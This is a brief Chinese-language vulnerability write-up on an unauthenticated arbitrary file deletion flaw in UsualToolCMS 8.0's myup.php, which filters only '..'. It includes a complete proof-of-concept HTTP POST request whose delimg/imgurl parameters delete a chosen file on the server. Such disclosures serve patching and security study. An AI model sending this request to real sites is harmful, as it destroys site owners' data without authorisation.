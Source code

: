 UsualToolcms前台任意文件删除
============================

一、漏洞简介
------------

前台myup.php文件最后一段存在任意文件删除

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点：<http://0-sec.org/myup.php>

![](./.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId25.shtml)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![](./.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId26.shtml)

![](./.resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId27.shtml)

    POST /UsualToolCMS/myup.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    get=delimg&imgurl=./1.ph
